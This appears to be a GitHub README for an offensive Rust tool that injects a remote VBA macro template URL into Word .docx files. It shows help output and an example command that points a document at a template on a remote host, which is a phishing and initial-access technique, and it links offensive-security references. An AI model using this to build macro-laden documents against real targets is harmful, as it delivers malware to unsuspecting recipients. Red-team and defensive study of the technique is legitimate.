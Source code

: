 # remote-template-injector
VBA Macro Remote Template Injection written in Rust

## Usage

```
❯ remote-template-injector -h

VBA Macro Remote Template Injection written in Rust

Usage: remote-template-injector --url <URL> --file <FILE> --output <OUTPUT>

Options:
  -u, --url <URL>        Template URL
  -f, --file <FILE>      File to be injected
  -o, --output <OUTPUT>  Output location of modified docx file
  -h, --help             Print help
  -V, --version          Print version
```

## Example

```
❯ remote-template-injector -f /path/to/file.docx -u http://192.168.1.2/template.dot -o /path/to/output.docx
Editing remote template url...
Word successfully injected. Generated file: /path/to/output.docx
Good Luck!
```

## Demo

![](https://i.imgur.com/KVif6Ar.gif)

## References
- https://john-woodman.com/research/vba-macro-remote-template-injection/
- https://blog.sunggwanchoi.com/remote-template-injection/
- https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros

## License

MIT License